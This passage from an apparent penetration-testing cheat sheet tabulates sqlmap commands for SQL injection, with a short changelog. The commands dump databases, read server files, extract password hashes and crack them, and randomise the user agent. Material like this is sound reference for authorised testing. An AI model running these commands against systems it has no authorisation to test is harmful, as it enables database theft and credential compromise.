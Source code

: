     <tr>
      <td>
        <p><code> sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE <br> --level=3 --current-user --current-db --passwords <br> --file-read="/var/www/blah.php" </code></p>
      </td>
      <td>
            <p>Targeted sqlmap scan</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>sqlmap -u "http://meh.com/meh.php?id=1" <br>--dbms=mysql --tech=U --random-agent --dump </code></p>
      </td>
      <td>
            <p>Scan url for union + error based injection with mysql backend <br>and use a random user agent + database dump</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>sqlmap -o -u "http://meh.com/form/" --forms</code></p>
      </td>
      <td>
            <p>sqlmap check form for injection</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>sqlmap -o -u "http://meh/vuln-form" --forms <br> -D database-name -T users --dump</code></p>
      </td>
      <td>
            <p>sqlmap dump and crack hashes for table users on database-name.</p>
      </td>
     </tr>
  </tbody>
</table>
</div>


## Document Changelog 

- **Last Updated:** 01/06/2024 (01th of June 2024)
- **Author:** Dhruv Ambaliya 
- **Notes:** Reviewed content is current for various tools. 

Previous document changes: 
- 16/03/2024 - fixed some formatting issues.
- 17/04/2024 - Article updated, added loads more content, VPN, DNS tunneling, VLAN hopping etc - check out the TOC below. 
